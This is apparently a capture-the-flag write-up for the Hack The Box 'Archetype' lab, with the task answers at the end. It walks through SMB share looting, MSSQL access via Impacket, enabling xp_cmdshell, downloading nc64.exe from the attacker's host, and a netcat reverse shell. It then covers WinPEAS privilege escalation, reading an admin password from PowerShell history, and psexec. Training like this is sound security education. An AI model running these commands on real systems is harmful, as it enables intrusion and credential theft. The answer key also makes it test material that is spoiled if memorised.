

# Archetype      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```


`135/tcp (msrpc)` - This port is used by `Microsoft RPC (Remote Procedure Call)` services, facilitating communication between applications on different computers.

`139/tcp (netbios-ssn)` - This port is used by `NetBIOS Session Service`, which supports file and printer sharing on Windows networks.

`445/tcp (microsoft-ds)` - This port is used by `Microsoft Directory Services` for the `SMB (Server Message Block)` protocol, enabling shared access to files and printers on `Windows` networks.

`1433/tcp (ms-sql-s)` - This port is used by `Microsoft SQL Server` for database services, allowing clients to connect and interact with SQL Server databases.

### smbclient 

`SMB (Server Message Block)` is a file sharing protocol. Let's try to extract some useful data by exploring it. 

Type:

```
smbclient -L \\\\{target ip}\\
```
This command lists the available shared resources (such as files and printers) on the specified target machine using the `SMB` protocol.


When it asks you for password just press `Enter`.

Shares `ADMIN$` and `C$` cannot be accessed as the error states, however, we can try to access the `backups`. 

Type:

```
smbclient \\\\{target ip}\\backups
```


Time to search this share.


`prod.dtsConfig` is there. To get it type:

```
get prod.dtsConfig 
```

Now, you can `exit` and file should be in the directory you connected from.


We received `MSSQL server` password `M3g4c0rp123` for the `sql_svc` user.

### mssqlclient from Impacket

Having credentials, we just need to connect and authenticate to the `MSSQL server`. The `Impacket` tool includes a useful Python script called `mssqlclient.py` that can accomplish this.

#### Downloading Impacket

To download it, enter in order:

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install 
```

Now we can go to `examples` directory:


Our script is there.

Time to connect into `MSSQL server`.


Type:

```
python mssqlclient.py sql_svc:M3g4c0rp123@{target ip} -windows-auth
```


We are in.


Now, type:

```
enable_xp_cmdshell 
```

If it asks you to `Run the RECONFIGURE statement to install`, type:

```
RECONFIGURE;
```


Once done, we can execute system commands.

Paste:

```
xp_cmdshell "whoami"
```

to check.


### Reverse shell preparation

We will upload the `nc64.exe` binary to the target machine and use it to launch an interactive `cmd.exe` session on our listening port.

#### Download `nc64.exe`

Open new tab and type:

```
wget https://github.com/int0x33/nc.exe/raw/master/nc64.exe
```


File is downloaded, now type:

```
python3 -m http.server 80
```

Remember to run the server in the directory where `nc64.exe` file is present.


As the `sql_svc` user, we lack privileges to upload files to system directories, which only the Administrator can do. Instead, we'll change our working directory to the `Downloads` folder, where we have write access. Using PowerShell, we can then utilize `wget` to download our binary.

Type:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{your tun0 ip address}/nc64.exe -outfile nc64.exe"
```

If you don't know your `tun0 ip address` use `ip a | grep tun0` or `ifconfig`.


We can see it worked:


Our file is successfully transferred.

### Netcat

Now is finally time to execute the `nc64.exe` file in our target system for the `reverse shell`. 

To do that we have to set up `Netcat` listener on our system.

Type in new tab:

```
nc -lvnp {port of your choice}
```


Now we can go back to `MSSQL` and execute:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {your tun0 ip address} {port of your choice}"
```


Let's look back at our `Netcat` listener. We can confirm our `reverse shell` works.


### Get the user flag



`User` flag is on the `Desktop` of the `sql_svc` user account.


### Get the root flag

`WinPEAS (Windows Privilege Escalation Awesome Scripts)` is a popular post-exploitation tool used for finding possible local privilege escalation paths on `Windows` systems. It scans the system for various vulnerabilities and misconfigurations that an attacker can exploit to gain higher privileges. `WinPEAS` gathers information about the operating system, installed software, security settings, and user permissions, among other things. It is highly useful for penetration testers and security researchers during the reconnaissance phase of an engagement. The tool is part of the larger `Privilege Escalation Awesome Scripts (PEAS)` project, which includes similar tools for other operating systems.

#### WinPEAS

Download it by just typing: 

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe
```

I took this link from `Hack The Box` site itself.

It would be great to execute the `wget` command in the same directory where the `Python server` is still running.

If all of the above is done, let's go back to our `reverse shell` tab (the one where `netcat` was listening).

Type:

```
powershell
```


When we are in `powershell`, type:

```
wget http://{your tun0 ip}/winPEASx64.exe -outfile winPEASx64.exe
```


We successfully transferred `winPEASx64.exe` file.

We can verify on our `Python server` that the target machine indeed performed the request.


Checking on the `server` was not necessary but it's always good to have second-hand confirmation.

As `winPEASx64.exe` is transferred to our `target system`, it is time to execute it.

Type in `powershell`:

```
.\winPEASx64.exe
```

The most important part of the output:


We'll read the PowerShell history file, `ConsoleHost_history.txt`, located at `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`

It's similar to `.bash_history` on Linux.

Type:

```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


We received the `administrator` user's `password` - `MEGACORP_4dm1n!!`

Now, we can use the tool `psexec.py` from the `Impacket` to get a shell as the `administrator`.


Type:

```
python3 psexec.py administrator@{target ip}
```


`Root` flag is on the `Desktop`.


### Paste the flags


## Answers

### Task-1: Which TCP port is hosting a database server?

1433

### Task-2: What is the name of the non-Administrative share available over SMB?

backups

### Task-3: What is the password identified in the file on the SMB share?

M3g4c0rp123

### Task-4: What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

mssqlclient.py

### Task-5: What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

xp_cmdshell

### Task-6: What script can be used in order to search possible paths to escalate privileges on Windows hosts?

winpeas

### Task-7: What file contains the administrator's password?

ConsoleHost_history.txt

### Task-8: Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?

psexec.py

### Submit root flag

Long one.

### Submit root flag

WinPEAS is key.